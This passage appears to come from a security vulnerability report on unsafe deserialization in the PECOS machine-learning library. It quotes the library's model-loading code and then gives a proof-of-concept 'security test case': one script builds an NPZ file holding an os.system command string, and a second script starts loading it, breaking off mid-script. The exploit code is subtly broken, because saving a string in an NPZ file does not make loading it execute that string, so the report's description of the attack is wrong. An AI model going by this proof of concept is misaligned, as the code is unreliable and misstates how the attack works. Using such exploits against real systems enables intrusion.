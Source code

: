     2. **File: `/code/pecos/xmc/xlinear/model.py`**
    ```python
    class XLinearModel(pecos.BaseClass):
        ...
        @classmethod
        def load(cls, folder, is_predict_only=False, **kwargs):
            ...
            W = smat_util.load_matrix("{}/W.npz".format(folder)).tocsc().sorted_indices() # Calls vulnerable load_matrix
            C = smat_util.load_matrix("{}/C.npz".format(folder)).tocsc().sorted_indices() # Calls vulnerable load_matrix
            return cls(W=W, C=C, bias=param["bias"], pred_params=pred_params)
        ...
    ```
    The `XLinearModel.load` method, a key function for model loading in PECOS, directly calls the vulnerable `smat_util.load_matrix` to load model weights and clustering structures. This propagates the deserialization vulnerability to the core model loading mechanism of PECOS. Other model loading functions across the project also use `smat_util.load_matrix`, inheriting this vulnerability.

- **Security Test Case:**
    1. **Create Malicious Model File:**
        ```python
        import numpy as np
        import os

        # Malicious code to be executed
        evil_code = """
        import os
        os.system('touch /tmp/pecos_vulnerable')
        """

        # Create a dictionary containing malicious payload
        malicious_data = {'data': None, 'indices': None, 'indptr': None, 'shape': None, 'evil_code': evil_code}

        # Save malicious data as an NPZ file
        np.savez('malicious_model.npz', **malicious_data, allow_pickle=True)
        print("malicious_model.npz created")
        ```
        This script creates a file named `malicious_model.npz` that includes embedded Python code designed to create a file named `pecos_vulnerable` in the `/tmp/` directory.
    2. **Create Exploit Trigger Script:**
        ```python
        from pecos.xmc.xlinear.model import XLinearModel
        import os

        try:
            model = XLinearModel.load("./malicious_model.npz") # Attempt to load the malicious model
        except Exception as e:
            print(f"Loading model failed, but that's expected in this vulnerability test: {e}")
